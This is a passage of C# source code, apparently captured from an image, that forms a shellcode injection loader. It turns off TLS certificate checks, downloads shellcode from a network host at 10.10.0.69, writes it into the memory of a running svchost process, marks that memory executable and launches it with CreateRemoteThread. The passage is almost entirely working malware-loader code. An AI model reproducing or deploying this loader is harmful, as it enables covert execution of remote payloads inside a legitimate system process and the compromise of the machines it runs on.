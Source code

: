 ```cs
                handler.ServerCertificateCustomValidationCallback = (message, cert, chain, sslPolicyErrors) => true;
  
                using (var client = new HttpClient(handler))
                {
                    shellcode = await client.GetByteArrayAsync("http://10.10.0.69/download/file.ext");
                }
            }
  
            // Open handle to process
            Process[] proc = Process.GetProcessesByName("svchost");
            var process = proc[0];
  
            // Allocate a region of memory
            var baseAddress = Win32.VirtualAllocEx(
                process.Handle,
                IntPtr.Zero,
                (uint)shellcode.Length,
                Win32.AllocationType.Commit | Win32.AllocationType.Reserve,
                Win32.MemoryProtection.ReadWrite);
  
            // Write shellcode into region
            Win32.WriteProcessMemory(
                process.Handle,
                baseAddress,
                shellcode,
                shellcode.Length,
                out _);
  
            // Flip memory region to RX
            Win32.VirtualProtectEx(
                process.Handle,
                baseAddress,
                (uint)shellcode.Length,
                Win32.MemoryProtection.ExecuteRead,
                out _);
  
            // Create the new thread
            Win32.CreateRemoteThread(
                process.Handle,
                IntPtr.Zero,
                0,
                baseAddress,
                IntPtr.Zero,
                0,
                out _);
  
            // Shellcode is runing in a remote process
            // no need to stop this process from closing
        }
    }
}
```
